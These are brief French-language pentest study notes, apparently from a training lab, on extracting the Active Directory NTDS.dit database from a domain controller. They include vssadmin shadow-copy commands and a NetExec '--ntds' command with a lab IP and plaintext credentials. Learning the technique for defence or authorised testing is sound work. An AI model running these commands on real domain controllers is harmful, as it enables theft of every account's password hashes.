 Emplacement: `%systemroot$/ntds` sur le DC. Doit être admin local `Administrators group` ou Domain Admin `Domain Admins group` 
## Capturer avec VSS
Utiliser [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) pour copier le disque contenant NTDS.dit
```shell-session
vssadmin CREATE SHADOW /For=C:

cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
## Capturer avec NetExec
```shell-session
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
